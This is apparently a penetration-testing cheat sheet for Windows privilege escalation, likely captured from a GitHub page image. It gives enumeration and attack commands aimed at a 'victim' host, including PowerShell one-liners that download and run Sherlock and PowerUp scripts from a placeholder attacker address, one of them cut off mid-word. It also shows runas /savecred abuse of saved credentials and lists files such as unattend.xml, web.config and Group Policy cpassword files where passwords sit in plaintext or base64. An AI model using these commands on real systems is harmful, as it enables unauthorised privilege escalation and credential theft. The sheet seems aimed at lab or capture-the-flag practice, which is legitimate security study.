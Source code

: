  * Schedule tasks
   ##### schtasks /query /fo LIST /v > schedule.txt

 * Windows-Exploit-Suggester
   * python windows-exploit-suggester.py --database 2020-08-09-mssb.xls --systeminfo grandpa.txt
 
 * Serlock
   * Config: Add to the last line the "Find-AllVulns"
   * Download and run Sherlock:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/Sherlock.ps1') | powershell -noprofile -
 
 * Watson
   * Find .NET latest version of victim:
     ##### dir %windir%\Microsoft.NET\Framework /AD
   * Fow older than windows 10 download zip version of watson v.1: https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437
   * Build exe to visual studio
   
* PowerUP
   * Config: add to the last line the "Invoke-AllChecks"
   * Download and run PowerUp:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/PowerUp.ps1') | powershell -noprofi
     
 * Stored Creadentials:
   * cmdkey /list
     * if interactive module enabled 100% runas as other user
     * if domain and user exist try again runas as other user
     
     ##### runas /savecred /user:\<Domain>\\\<user> C:\\\<path>\\\<exefile>
   * Stored as plaintext or base64
     * C:\unattend.xml
     * C:\Windows\Panther\Unattend.xml
     * C:\Windows\Panther\Unattend\Unattend.xml
     * C:\Windows\system32\sysprep.inf
     * C:\Windows\system32\sysprep\sysprep.xml
     
   * If system is running an IIS web server the web.config file:
     * C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
     * C:\inetpub\wwwroot\web.config
     
   * Local administrators passwords can also retrieved via the Group Policy Preferences:
     * C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
     * \\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
   
   * Except of the Group.xml file the cpassword attribute can be found in other policy preference files as well such as:
     * Services\Services.xml
     * ScheduledTasks\ScheduledTasks.xml
     * Printers\Printers.xml
     * Drives\Drives.xml
     * DataSources\DataSources.xml
     